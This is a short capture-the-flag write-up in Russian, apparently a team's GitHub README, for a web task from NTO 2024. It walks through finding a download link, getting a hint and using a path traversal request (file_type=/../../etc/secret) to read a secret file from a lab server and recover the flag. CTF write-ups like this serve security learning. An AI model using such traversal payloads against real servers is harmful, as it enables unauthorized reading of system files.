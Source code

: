 # NTO-2024-xls-team

# Task solves

## Web 1

Сначала открываем инструменты разработчика, смотрим и находим строку:

`<a href="/download?file_type=file1.txt">20</a>`

Переходим по ссылке `http://192.168.12.10:5001/download?file_type=file1.txt`
и получаем *hint*:

`Hint_1 maybe in etc/secret ???`

Понимаем, что скорее всего нужно применить `Path Fuzzing`.
Ищем, находим подобные уязвимости и делаем запрос:

`http://192.168.12.10:5001/download?file_type=/../../etc/secret`

Получаем `flag` из файла secret: nto{P6t9_T77v6RsA1}
